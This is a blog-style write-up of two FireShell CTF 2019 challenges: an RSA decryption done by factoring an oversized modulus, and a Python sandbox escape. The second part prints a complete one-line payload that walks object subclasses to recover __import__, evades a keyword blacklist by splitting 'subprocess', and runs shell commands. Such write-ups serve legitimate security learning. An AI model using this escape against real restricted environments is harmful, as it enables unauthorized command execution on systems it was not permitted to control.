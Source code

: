 # FireShell CTF Writeups

Fireshell CTF was a decent CTF that took place 1/26/2019. Some of the challenges were pretty cool, but derivative of past challenges. Some of the "cons" of the CTF are that there was unscheduled downtime, late-added challenges, weird dynamic scoring (one of the questions had 3 less solves but was worth twice as many points as another question) and a language barrier that made some questions a bit harder than they needed to be.

I'm composing a couple write-ups for the questions I completed that don't have writeups on ctftime.

# Biggars

### Overview

Given a text file [which I renamed to biggars.py so I could import it easily into my python code] with the variables e, N, C defined. The question's text is pretty irrelevant.


### The Solve

Since the question gives the tuple `(e,N,C)` without any further info, we can immediately assume this is an RSA question (see reference 1). In short, we know `M^e = C mod N` and want to find `d` such that `d*e = 1 mod phi(N)` so we can calculate `C^d = M mod N`. Most of the time RSA questions are solved by computing `phi(N)` after factoring `N`. Sometimes we calculate `d` directly.

Most `N` are around 1024-4096 bits... Taking a look at this one, it is over 500,000 bits long. This is very fishy and my intuition here is that `N` can be factored (and probably very quickly). My first step for RSA problems is always to pop `N` into [factordb.com](factordb.com), but it is too large for the server. The alternative is to enter a `sage` shell and utilize their built-in number theory functionality. Import the three variables into the shell so we can use them, and `factor(N)` to see that `N` can be fully factored in milliseconds! This is good news, and makes the rest of the problem fairly straightforward.

Sage is a real workhorse here. `p = euler_phi(N)` calculates euler's totient for us. Then `d = inverse_mod(e, p)` calculates the multiplicative inverse of `e mod p`, our decryption exponent. Now a quick calculation of `M = pow(C,d,N)` and...

*10 minutes later*

Ok, the calculation still isn't complete, it looks like the numbers may be too big to compute efficiently. To be on the safe side I open a pypy shell on my laptop, and a regular python shell on my beefier desktop to see if either will finish more quickly, and let them sit for awhile. After ~30 minutes, the sage computation finishes first, yielding the number `M = 2285997671207389169910475407268635357578225559267332896350087006464155634525015356776294350090`. Intuitively, this is a good number to see because if one of my previous steps was incorrect, then `M` would essentially be random bits with length ~= to the length of `N`. Since `M` is so small, it is unlikely to be wrong. My first instinct is to convert this integer to its ascii value, which can be done with the pyCrypto library function long_to_bytes: `from Crypto.Util.number import long_to_bytes`, and finally `print(long_to_bytes(M))`, which yields the flag!

### References

1. [https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Operation](https://en.wikipedia.org/wiki/RSA_(cryptosystem)#Operation)
1. [http://www.sagemath.org/](http://www.sagemath.org/)
1. [https://github.com/dlitz/pycrypto](https://github.com/dlitz/pycrypto)

# Python Learning Environment

### Overview

This question gives a link to a webpage with a hint that implies we are in some sort of limited web shell for python. We have a text box that POSTs our input to the server and responds with the output of our commands. Some basic recon reveals the python web shell is pretty strict and probably want to execute system code to read a file or interact somehow with the OS.

It becomes clear pretty quickly that we can't directly interact with the OS. The webpage has a javascript filter that parses the request and removes certain keywords. The request will print simply a `syntaxerror on line X` whenever something goes wrong, which isn't very descriptive. From my experimentation, I gather:

1. Some strings such as `'os'` and `'subprocess'` are illegal and removed by the javascript filter
2. The __builtins__ attribute is cleared - this means no builtin functions such as int(), chr(), etc. Notably, we can't import or use __import__
3. Square brackets `[`, `]` are illegal and removed
4. Ints are messed with, I didn't figure out exactly how but most ints are converted into another int - so I avoided them completely
5. Only the variable `test` is allowed. I'll add a little more challenge by making this a 1-liner. [I was apparently incorrect about this, but it affected my solve]

I generally follow along with the first reference below. The general strategy is to:

1. Access the base object class
1. Use that to access the warnings.catch_warnings subclass
1. Follow the members to the `__builtins__` attribute of this class
1. Use **this** `__import__` to import subprocess
1. subprocess.check_output() to run commands

You can follow along at home in a regular python shell by following the guidelines above.

### The Solve

First, doing `test = {}.__class__.__base__.__subclasses__()` works fine and as expected. We now have the classes list.

Second, we need to access the catch_warnings subclass. In our case, it is the 59th element of the list, but we can't directly access it using brackets, and even if we could, we can't directly use an int. So we need an alternative. `dir(test)` gives a list of the methods we can use. `__getitem__` probably works, but I went with `pop(X)`, which returns the element at the `X` position. This dir also gives us a solution to the `int` problem - `index`.

Next, we can build a tuple to return us the proper int: `(('a')*59+('b')).index('b')` returns 59. Let's add this in to our command: `test = {}.__class__.__base__.__subclasses__().pop((('a')*59+('b')).index('b'))()`. We can append `._module.__builtins__` without issue to get a dict, from which we need to access the value corresponding to the key `'__import__'`.

Fourth, run `print test.keys()` to show we need the 109th value from this list. We could access the corresponding values list and return our value with `test.values()[109]`, but we need to use the same `pop`/`index` workaround as before to get to the `__import__` function: `test = {}.__class__.__base__.__subclasses__().pop((('a')*59+('b')).index('b'))()._module.__builtins__.values().pop((('c')*109+('d')).index('d'))` is the function object for `__import__`! Now we can call it to import subprocess, but since `'subprocess'` is blacklisted, a simple bypass `'sub' + 'pro' + 'cess'` bypasses this.

Finally, since subprocess is imported, we can interact with the system using `subprocess.check_output(cmd)`. First, to enumerate our test system let's run `'ls'` with `subprocess.check_output('ls')`: `print {}.__class__.__base__.__subclasses__().pop((('a')*59+('b')).index('b'))()._module.__builtins__.values().pop((('c')*109+('d')).index('d'))('subprocess').check_output('ls')` prints the directory. Luckily, one of the file names is the flag and we are done!

### References

1. https://gynvael.coldwind.pl/n/python_sandbox_escape
1. http://wapiflapi.github.io/2013/04/22/plaidctf-pyjail-story-of-pythons-escape/
